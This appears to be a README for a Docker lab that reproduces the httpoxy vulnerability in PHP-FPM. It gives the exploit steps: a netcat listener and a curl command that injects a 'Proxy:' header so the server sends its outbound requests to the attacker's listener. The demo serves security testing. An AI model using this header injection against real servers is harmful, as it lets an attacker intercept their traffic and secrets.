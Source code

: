 # httpoxy-vuln

Completely and utterly stolen from [php-fpm-httpoxy-poc](https://github.com/httpoxy/php-fpm-httpoxy-poc), however that proof of concept doesn't work out of the box and bending it to a testing end seemed all together decent.

## Steps

This is how the vulnerability works:

1. Send a header with 'Proxy: yourproxyserver:port'
2. notice a request is routed to your proxy
3. take notice in your proxy server

## Using this demo

Here is how you can see it in action:

1. rebuild and run the whole docker thing

    ```
    ./rebuild.sh
    ```

2. Start some sort of capturing proxy:

    `nc -l 12345`

4. test that the container running at 192.168.99.100, attempts to proxy out 192.168.0.6.12345...


    ```sh
    curl -H 'Proxy: 192.168.0.6:12345' 192.168.99.100
    ```



